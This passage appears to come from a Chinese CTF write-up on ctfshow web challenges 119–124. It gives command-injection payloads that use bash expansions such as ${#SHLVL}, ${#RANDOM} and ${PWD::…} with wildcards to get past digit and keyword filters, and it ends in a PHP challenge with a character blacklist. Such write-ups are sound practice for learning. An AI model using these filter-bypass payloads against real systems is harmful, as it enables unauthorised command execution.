 /很简单，pwd的第一位就是，因为这题ban了数字，所以可以用该题值必是1的`${#SHLVL}`绕过：

>SHLVL 是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时`${SHLVL}=1`，然后在此shell中再打开一个shell时${SHLVL}=2。

还有一个4的问题，可以用`${#RANDOM}`，在Linux中，`${#xxx}`显示的是这个值的位数，例如12345的值是5，而random函数绝大部分产生的数字都是4位或者5位的，因此可以代替4.
```
root@baba:~# echo ${#RANDOM}
4
root@baba:~# echo ${#RANDOM}
4
root@baba:~# echo ${#RANDOM}
5
root@baba:~# echo ${#RANDOM}
3
root@baba:~# echo ${#RANDOM}
5
root@baba:~# echo ${#RANDOM}
4
```
payload:
```
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
```

---
## web120
hint:
```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
```
`${USER}`显示当前用户名

---
## web121
这题最关键的SHLVL被过滤了，可以用`${#?}`代替
```
$?
用途：上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误
```
由于上一条命令是成功执行的，所以返回0，长度是1，能完美代替`${#SHLVL}`。其他地方没有变化

payload：
```
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

---
## web124(*)

```bash
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
```